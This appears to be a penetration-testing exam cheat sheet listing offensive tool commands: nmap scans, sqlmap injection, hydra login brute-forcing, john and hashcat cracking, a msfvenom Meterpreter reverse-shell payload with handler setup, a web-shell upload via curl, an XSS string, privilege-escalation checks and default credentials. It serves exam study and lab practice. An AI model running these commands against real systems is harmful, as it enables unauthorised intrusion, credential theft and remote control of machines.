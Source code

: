 

🔥 Top 10 Exam Commands (MUST KNOW)
1. **Network Scanning**

```
nmap -sS -p- -T4 10.10.10.10  # Stealth TCP scan
```

```
nmap -sU -p 53,161 10.10.10.10 # UDP scan
```

2. **Web App Attacks**

```
sqlmap -u "http://site.com?id=1" --risk=3 --level=5 --dbs
```

```
hydra -l admin -P rockyou.txt http-post-form "/login.php:user=^USER^&pass=^PASS^:F=invalid"
```

3. **Password Cracking**

```
john --format=NT hashes.txt --wordlist=rockyou.txt
```

```
hashcat -m 1000 hashes.txt rockyou.txt --force
```

4. **Metasploit Essentials**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe > payload.exe
```

```
use exploit/multi/handler
```

```
set payload windows/meterpreter/reverse_tcp
```

## 📌 Exam Task Quick Reference

### 1. Network Scanning
| Task                | Command                                                                 |
|---------------------|-------------------------------------------------------------------------|
| Find live hosts     | `nmap -sn 192.168.1.0/24`                                              |
| Full port scan      | `nmap -p- -T4 10.10.10.10`                                             |
| Service versions    | `nmap -sV -p 80,443 10.10.10.10`                                       |

### 2. Web Hacking
| Vulnerability      | Command                                                |
| ------------------ | ------------------------------------------------------ |
| SQL Injection      | `sqlmap -u "http://site.com?id=1" --dbs`               |
| XSS Test           | `<script>alert('XSS')</script>`                        |
| File Upload Bypass | `curl -F "file=@shell.php" http://site.com/upload.php` |

### 3. Privilege Escalation
| OS      | Command                                                   |
| ------- | --------------------------------------------------------- |
| Linux   | `sudo -l`, `find / -perm -4000 2>/dev/null`, `linpeas.sh` |
| Windows | `whoami /priv`, `systeminfo`, `winPEASany.exe`            |

## 🚨 Exam Day Pro Tips

1. **Time Management**:
   - Spend max **15-20 mins per task**
   - Flag difficult tasks and return later

1. **Documentation**:

   Take screenshots of EVERY step
   
```
import -window root screenshot_$(date +%s).png
```

3. **When Stuck**:

   - Check `/var/www/html` for web files
   - Try default creds (`admin:admin`, `root:toor`)



